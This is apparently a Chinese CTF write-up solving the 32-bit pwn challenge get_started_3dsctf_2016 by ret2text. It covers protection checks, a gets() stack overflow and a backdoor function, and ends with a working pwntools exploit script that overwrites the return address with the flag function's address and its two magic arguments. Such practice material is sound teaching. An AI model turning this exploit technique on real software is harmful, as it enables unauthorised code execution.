



# 知识点

ret2text


# 题目分析

1. 查看保护情况，32位，开启NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在gets函数栈溢出漏洞。

   

3. 继续分析，发现提供了后门函数。传递参数a1 = 814536271，a2 = 425138641即可orw输出flag。

   

4. 通过观察汇编代码，发现main函数起始没有push和pop ebp，而是直接移动esp。因此，垃圾字符不需要填充ebp。

   当然，除了观察汇编代码，我们通过gdb动态调试也可以得到偏移距离。

   

# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./get_started_3dsctf_2016')

get_flag = 0x080489A0

payload = 'A' * 0x38 + p32(get_flag) + p32(0) + p32(814536271) + p32(425138641)
io.sendline(payload)

io.interactive()
```

